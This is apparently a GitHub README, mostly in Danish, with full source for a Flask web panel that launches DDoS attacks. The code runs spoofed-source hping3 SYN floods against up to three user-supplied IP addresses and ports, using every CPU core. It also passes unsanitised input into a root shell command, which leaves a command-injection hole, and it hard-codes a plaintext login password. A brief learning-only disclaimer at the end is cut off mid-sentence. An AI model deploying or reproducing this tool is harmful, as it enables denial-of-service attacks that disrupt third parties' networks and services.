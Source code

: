 # ddos-use-kali-linux-on-wed-remote-access
# Flask DDoS Attack Control

This project provides a simple web interface to control a DDoS attack using `hping3` via a Flask application. Users can log in and start or stop an attack by specifying IP addresses, ports, and the duration of the attack.

## Prerequisites

Before running the project, ensure the following are installed on your machine:

- Python 3.x
- Flask (`pip install flask`)
- hping3 (needs to be run with root access)
- Multiprocessing and threading modules (which come with Python)

## Installation

Guide: Sådan får du Flask-appen op at køre

Denne guide viser dig, hvordan du opsætter Flask-appen og kører den på din maskine. Følg trinnene for at få Flask-serveren til at køre korrekt.
1. Installer de nødvendige afhængigheder

Først skal du sørge for, at du har Python og Flask installeret. Hvis du ikke har Flask installeret, kan du gøre det med følgende kommando:

pip install flask

2. Opret en Python-fil til Flask-appen

Opret en fil kaldet app.py på din server, hvor du vil køre Flask-appen.

nano app.py

Indsæt følgende kode i app.py:

from flask import Flask, request, render_template_string, jsonify, redirect, url_for, session
import subprocess
import threading
import time
import os
import multiprocessing

app = Flask(__name__)
app.secret_key = os.urandom(24)  # Hver gang serveren starter, får den en ny sessionnøgle

# HTML template
HTML_TEMPLATE = '''
<!DOCTYPE html>
<html lang="da">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Angrebsstyring</title>
    <script>
        function startAttack() {
            const ip1 = document.getElementById('ip1').value;
            const port1 = document.getElementById('port1').value;
            const ip2 = document.getElementById('ip2').value;
            const port2 = document.getElementById('port2').value;
            const ip3 = document.getElementById('ip3').value;
            const port3 = document.getElementById('port3').value;
            const duration = document.getElementById('duration').value;

            // Opret JSON-objekt med data
            const data = {
                ip1: ip1,
                port1: port1,
                ip2: ip2,
                port2: port2,
                ip3: ip3,
                port3: port3,
                duration: duration
            };

            fetch('/start_attack', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(data)
            })
            .then(response => response.json())
            .then(data => {
                alert(data.message);
            })
            .catch(error => {
                alert('Fejl: ' + error);
            });
        }

        function stopAttack() {
            fetch('/stop_attack', {
                method: 'POST'
            })
            .then(response => response.json())
            .then(data => {
                alert(data.message);
            })
            .catch(error => {
                alert('Fejl: ' + error);
            });
        }
    </script>
</head>
<body>
    <h1>Start DDoS Angreb</h1>
    <label for="ip1">IP1:</label>
    <input type="text" id="ip1" placeholder="Angiv IP Adresse">
    <br><br>
    <label for="port1">Port1:</label>
    <input type="number" id="port1" placeholder="Angiv Port">
    <br><br>

    <label for="ip2">IP2:</label>
    <input type="text" id="ip2" placeholder="Angiv IP Adresse">
    <br><br>
    <label for="port2">Port2:</label>
    <input type="number" id="port2" placeholder="Angiv Port">
    <br><br>

    <label for="ip3">IP3:</label>
    <input type="text" id="ip3" placeholder="Angiv IP Adresse">
    <br><br>
    <label for="port3">Port3:</label>
    <input type="number" id="port3" placeholder="Angiv Port">
    <br><br>

    <label for="duration">Varighed (sekunder):</label>
    <input type="number" id="duration" placeholder="Varighed">
    <br><br>

    <button onclick="startAttack()">Start Angreb</button>
    <button onclick="stopAttack()">Stop Angreb</button>
</body>
</html>
'''

# HTML login template
LOGIN_TEMPLATE = '''
<!DOCTYPE html>
<html lang="da">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <h1>Login</h1>
    <form action="/login" method="POST">
        <label for="password">Adgangskode:</label>
        <input type="password" id="password" name="password" required>
        <br><br>
        <button type="submit">Log ind</button>
    </form>
</body>
</html>
'''

# Definer din adgangskode her
PASSWORD = "jrd772zac"

# HTML login route
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        password = request.form.get('password')
        if password == PASSWORD:
            session['logged_in'] = True  # Angiv at brugeren er logget ind
            return redirect(url_for('index'))
        else:
            return "Forkert adgangskode", 403
    return render_template_string(LOGIN_TEMPLATE)

# Funktion til at køre hping3-angrebet med alle CPU-kerner
def start_attack(ip, port, duration):
    # Hent antallet af CPU-kerner
    cpu_cores = multiprocessing.cpu_count()

    # Kommandoen til at bruge alle CPU-kerner
    for _ in range(cpu_cores):
        command = f"sudo hping3 --flood --rand-source -S -p {port} {ip} &"
        subprocess.run(command, shell=True, executable="/bin/bash")

    if duration > 0:
        time.sleep(duration)
        stop_attack_command = "sudo killall hping3"
        subprocess.run(stop_attack_command, shell=True, executable="/bin/bash")

@app.route('/')
def index():
    if not session.get('logged_in'):  # Tjek om brugeren er logget ind
        return redirect(url_for('login'))  # Hvis ikke, send til login-siden
    return render_template_string(HTML_TEMPLATE)

@app.route('/start_attack', methods=['POST'])
def start_attack_route():
    # Modtag data som JSON
    data = request.json
    ip1 = data.get('ip1')
    port1 = data.get('port1')
    ip2 = data.get('ip2')
    port2 = data.get('port2')
    ip3 = data.get('ip3')
    port3 = data.get('port3')
    duration = int(data.get('duration', 0))

    # Tjek, at ip1 og port1 er angivet
    if not ip1 or not port1:
        return jsonify({"status": "error", "message": "IP og port 1 skal angives!"}), 400

    # Start angrebet i separate tråde for hver IP og port
    if ip1 and port1:
        threading.Thread(target=start_attack, args=(ip1, port1, duration)).start()
    if ip2 and port2:
        threading.Thread(target=start_attack, args=(ip2, port2, duration)).start()
    if ip3 and port3:
        threading.Thread(target=start_attack, args=(ip3, port3, duration)).start()

    return jsonify({"status": "success", "message": "Angreb startet!"})

@app.route('/stop_attack', methods=['POST'])
def stop_attack_route():
    # Stop angrebet
    stop_attack_command = "sudo killall hping3"
    subprocess.run(stop_attack_command, shell=True, executable="/bin/bash")
    return jsonify({"status": "success", "message": "Angreb stoppet!"})

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)

3. Kør Flask-appen

Når du har oprettet og gemt app.py-filen, kan du køre Flask-appen med følgende kommando:

python app.py

Dette vil starte serveren på http://0.0.0.0:5000/. Du kan nu tilgå den via din webbrowser.
4. Login og brug af applikationen

    Gå til login-siden via http://localhost:5000/login.
    Brug den definerede adgangskode (jrd772zac) for at logge ind.
    Når du er logget ind, kan du tilgå hovedsiden, hvor du kan starte og stoppe DDoS-angrebet via inputfelterne.

Vigtig Bemærkning

Dette script er til læring og eksperimentering i kontrollerede miljøer. Misbrug af DDoS-angreb kan være ulovligt og kan medføre alvorlige konsekvenser. Sørg for, at
